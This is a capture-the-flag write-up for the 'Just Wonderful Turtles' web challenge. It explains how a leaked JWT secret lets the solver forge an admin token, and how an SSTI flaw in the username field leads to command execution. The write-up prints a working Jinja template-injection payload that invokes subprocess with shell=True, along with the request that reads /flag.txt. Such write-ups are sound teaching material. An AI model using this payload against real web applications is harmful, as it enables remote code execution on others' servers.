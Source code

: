 # [Just Wonderful Turtles](https://hack.cert.pl/challenge/justwonderfulturtles)

## Task

We get access to a website full of turtles with a login system.

## Solution

After logging in as `guest:guest`, one post gives a hint:

> (admin): Just Wonderful Turtle team secret is: we think that 'turtlerocks'!


It turns out that the JWT secret key is indeed `turtlerocks`.

After logging in as admin, we get access to the `/admin` route, in which we get another hint after inspecting page source.

```html
<!-- to John - we have admin permission verification based on .startswith("admin"). For now it is okay, as there only guest user, but when we will roll out registration functionality, we have to change it! It is because user that would start with `admin` will be able to access our secret place! - yours trully, Jack -->
```

After some experimenting, we can find a SSTI vulnerability in the admin username.

To get the flag, we need to craft a JWT token with following username:

```
admin {{ dict.mro()[-1][request.args.s]()[372](request.args.cmd,shell=True,stdout=-1).communicate()[0].strip() }}
```

And then access `/admin?s=__subclasses__&cmd=cat%20/flag.txt`, and voila!

[Solve script](./solve.py)

`ecsc24{turt13s_REa1lY_r0ck!}`